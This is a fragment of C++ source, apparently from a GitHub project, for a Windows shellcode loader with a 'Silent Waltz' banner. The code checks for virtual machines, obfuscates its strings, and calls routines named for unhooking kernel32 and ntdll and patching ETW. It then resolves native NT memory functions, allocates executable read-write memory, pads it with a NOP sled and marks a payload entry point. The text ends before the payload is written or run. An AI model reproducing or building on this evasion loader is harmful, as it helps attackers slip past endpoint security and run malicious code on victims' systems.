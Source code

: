 ```cpp
	std::cout << R"(
	_________.__.__                 __     __      __        .__   __          
	/   _____/|__|  |   ____   _____/  |_  /  \    /  \_____  |  |_/  |_________
	\_____  \ |  |  | _/ __ \ /    \   __\ \   \/\/   /\__  \ |  |\   __\___   /
	/        \|  |  |_\  ___/|   |  \  |    \        /  / __ \|  |_|  |  /    / 
	/_______  /|__|____/\___  >___|  /__|     \__/\  /  (____  /____/__| /_____ \
        \/              \/     \/              \/        \/                \/
    )" "\n\n" << std::endl;

	HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
	CONSOLE_SCREEN_BUFFER_INFO consoleInfo;
	GetConsoleScreenBufferInfo(hConsole, &consoleInfo);
	WORD originalColor = consoleInfo.wAttributes;

	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	std::cout << OBF("[ Detecting virtual machines with VMAware ]\n");
	
	if (isRunningInVM()) {
	SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
	std::cout << OBF("[!] Virtual machine detected!") << "\n\n";
	//HANDLE hProcess = GetCurrentProcess();
	//TerminateProcess(hProcess, 1);
	}
	else {
	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	std::cout << OBF("[#] No virtual machine detected!") << "\n\n";
	}

	UnhookingK32(); UnhookingNT(); ETWPATCH();

    auto NtAllocateVirtualMemory = GetNtFunction<NtAllocateVirtualMemory_t>(OBF("NtAllocateVirtualMemory"));
    auto NtFreeVirtualMemory = GetNtFunction<NtFreeVirtualMemory_t>(OBF("NtFreeVirtualMemory"));
    auto NtWriteVirtualMemory = GetNtFunction<NtWriteVirtualMemory_t>(OBF("NtWriteVirtualMemory"));
    auto NtProtectVirtualMemory = GetNtFunction<NtProtectVirtualMemory_t>(OBF("NtProtectVirtualMemory"));
    auto NtSetInformationThread = GetNtFunction<NtSetInformationThread_t>(OBF("NtSetInformationThread"));

    if (!NtAllocateVirtualMemory || !NtFreeVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory || !NtSetInformationThread) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << OBF("Failed to resolve one or more NT Native API functions.") << std::endl;
        return EXIT_FAILURE;
    }

    DWORD memory_size = SHELLCODE_PADDING + payload_size + SHELLCODE_PADDING;

    PVOID heap_memory = nullptr;
    SIZE_T size = memory_size;
    NTSTATUS status = NtAllocateVirtualMemory(GetCurrentProcess(), &heap_memory, 0, &size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(status)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << OBF("NtAllocateVirtualMemory failed with status: ") << status << std::endl;
        return EXIT_FAILURE;
    }

    payload_lower_bound = (DWORD64)heap_memory;
    payload_upper_bound = payload_lower_bound + memory_size;

    memset(heap_memory, '\x90', memory_size);
    PVOID payload_entry = (PBYTE)heap_memory + SHELLCODE_PADDING;
```